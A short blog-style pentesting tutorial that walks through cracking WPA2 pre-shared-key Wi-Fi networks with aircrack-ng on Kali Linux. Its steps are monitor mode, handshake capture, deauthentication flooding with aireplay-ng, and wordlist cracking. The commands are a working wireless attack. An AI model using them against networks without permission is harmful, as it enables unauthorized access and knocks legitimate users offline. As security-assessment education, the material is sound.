```yaml
---
title: "Cracking WPA2"
date: 2023-07-11T12:36:55+02:00
tags: ["pentesting", "linux"]
author: "Andy Sukowski-Bang"
description: "This short tutorial walks you through cracking WPA2 networks which use pre-shared keys using the [aircrack-ng](https://www.aircrack-ng.org) suite of tools to assess WI-FI network security. All of the necessary tools come preinstalled with the [Kali Linux](https://www.kali.org) distribution."
---
```


This short tutorial walks you through cracking WPA2 networks which use
pre-shared keys using the [aircrack-ng][1] suite of tools to assess WI-FI
network security. All of the necessary tools come preinstalled with the [Kali
Linux][2] distribution. The `#` in front of commands means, that they have to
be executed as the `root` user, e.g. using `sudo`.

## Wireless card into monitor mode

List all possible programs that could interfere with the wireless card. If
`kill` is specified, it will try to kill all of them.

```
# airmon-ng check kill
```

Enable monitor mode on an interface (here it's `wlp3s0`) and check if it worked

```
# airmon-ng start wlp3s0
# airmon-ng
```

## Capture handshake

List Wi-Fi networks and their BSSIDs, Channels, etc.

```
# airodump-ng wlp3s0mon
```

Narrow search down to specific BSSID (MAC address).

```
# airodump-ng wlp3s0mon -d <BSSID>
```

Capture WPA2 handshake and write it to file (e.g. `handshake1-01.cap`). Remember
to change interface name, if needed.

```
# airodump-ng -w handshake -c <channel> --bssid <BSSID> wlp3s0mon
```

**Optional in other terminal:** Simultaniously send deauthentication packets to
clients on the network to capture WPA2 handshake by forcing clients to
reauthenticate. Without this step, it might take some time to capture the
handshake.

```
# aireplay-ng --deauth 0 -a <BSSID> wlp3s0mon
```

## Crack password

After storing the handshake in e.g. `handshake1-01.cap`, we can finally crack the
password using `aircrack-ng`.

```
# aircrack-ng handshake1-01.cap -w dictionary.txt
```

Alternatively, we can extract the handshake from the `.cap` capture file and
convert it to a modern hashcat compatible hash file using
[hashcat.net/cap2hashcat][3], which can then be cracked using [hashcat][4].

[1]: https://www.aircrack-ng.org
[2]: https://www.kali.org
[3]: https://hashcat.net/cap2hashcat
[4]: https://hashcat.net/hashcat
